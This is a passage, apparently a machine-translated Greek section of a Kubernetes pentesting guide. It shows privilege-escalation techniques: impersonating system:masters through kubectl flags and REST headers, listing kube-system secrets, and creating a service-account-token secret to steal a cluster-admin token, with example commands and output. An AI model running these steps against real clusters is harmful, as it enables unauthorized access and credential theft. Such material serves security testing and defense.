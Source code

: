 ```yaml
- mountPath: "/hostlogs"
name: task-pv-storage-vol
```
### **Υποκατάσταση προνομιακών λογαριασμών**

Με ένα [**προνόμιο υποκατάστασης χρήστη**](https://kubernetes.io/docs/reference/access-authn-authz/authentication/#user-impersonation), ένας επιτιθέμενος θα μπορούσε να υποκαταστήσει έναν προνομιακό λογαριασμό.

Απλά χρησιμοποιήστε την παράμετρο `--as=<username>` στην εντολή `kubectl` για να υποκαταστήσετε έναν χρήστη, ή `--as-group=<group>` για να υποκαταστήσετε μια ομάδα:
```bash
kubectl get pods --as=system:serviceaccount:kube-system:default
kubectl get secrets --as=null --as-group=system:masters
```
Ή χρησιμοποιήστε το REST API:
```bash
curl -k -v -XGET -H "Authorization: Bearer <JWT TOKEN (of the impersonator)>" \
-H "Impersonate-Group: system:masters"\
-H "Impersonate-User: null" \
-H "Accept: application/json" \
https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```
### Listing Secrets

Η άδεια να **καταγράψει μυστικά θα μπορούσε να επιτρέψει σε έναν επιτιθέμενο να διαβάσει πραγματικά τα μυστικά** αποκτώντας πρόσβαση στο REST API endpoint:
```bash
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```
### Δημιουργία και Ανάγνωση Μυστικών

Υπάρχει ένας ειδικός τύπος μυστικού Kubernetes του τύπου **kubernetes.io/service-account-token** που αποθηκεύει τα tokens του serviceaccount. Αν έχετε άδειες για να δημιουργείτε και να διαβάζετε μυστικά, και γνωρίζετε επίσης το όνομα του serviceaccount, μπορείτε να δημιουργήσετε ένα μυστικό ως εξής και στη συνέχεια να κλέψετε το token του serviceaccount του θύματος από αυτό:
```yaml
apiVersion: v1
kind: Secret
metadata:
name: stolen-admin-sa-token
namespace: default
annotations:
kubernetes.io/service-account.name: cluster-admin-sa
type: kubernetes.io/service-account-token
```
Παράδειγμα εκμετάλλευσης:
```bash
$ SECRETS_MANAGER_TOKEN=$(kubectl create token secrets-manager-sa)

$ kubectl auth can-i --list --token=$SECRETS_MANAGER_TOKEN
Warning: the list may be incomplete: webhook authorizer does not support user rule resolution
Resources                                       Non-Resource URLs                      Resource Names   Verbs
selfsubjectreviews.authentication.k8s.io        []                                     []               [create]
selfsubjectaccessreviews.authorization.k8s.io   []                                     []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                     []               [create]
secrets                                         []                                     []               [get create]
[/.well-known/openid-configuration/]   []               [get]
```